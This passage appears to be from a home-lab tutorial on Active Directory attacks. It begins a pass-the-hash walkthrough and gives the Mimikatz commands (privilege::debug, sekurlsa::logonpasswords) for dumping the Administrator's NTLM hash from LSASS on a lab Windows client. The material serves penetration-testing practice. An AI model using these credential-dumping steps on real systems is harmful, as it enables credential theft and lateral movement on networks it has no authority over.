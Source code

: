 
### Using Pass-the-Hash (PTH) Attack

We'll perform a pass-the-hash (PtH) attack using Mimikatz to move laterally from `win10client.ADLAB.local` (192.168.56.40) to `win10adm` (192.168.56.30). The Administrator account uses the same password on both machines, allowing us to reuse the NTLM hash for authentication.

**Prerequisites:**

- Administrative privileges on `win10client`.
- Mimikatz executable available on `win10client`.

**Step 1: Extract the NTLM Hash with Mimikatz**
First, we need to dump the NTLM hash of the Administrator account on `win10client`.

**Command:**

1. Open an elevated command prompt (Run as Administrator).
2. Run Mimikatz:

   In **cmd**, use:

   ```bash
   %USERPROFILE%\mimikatz\x64\mimikatz.exe
   ```

   In **PowerShell**, use

   ```bash
   & $HOME\mimikatz\x64\mimikatz.exe
   ```

   ```text
        .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
       .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
       ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
       ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
        '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

      mimikatz #
   ```

3. In the Mimikatz console, enable debug privileges:

   ```bash
   privilege::debug
   ```

4. Dump the credentials from LSASS:

   ```bash
   sekurlsa::logonpasswords
   ```

**Explanation:**

- `privilege::debug`: Grants the necessary privileges to access system processes.
- `sekurlsa::logonpasswords`: Extracts authentication material from the Local Security Authority Subsystem Service (LSASS).
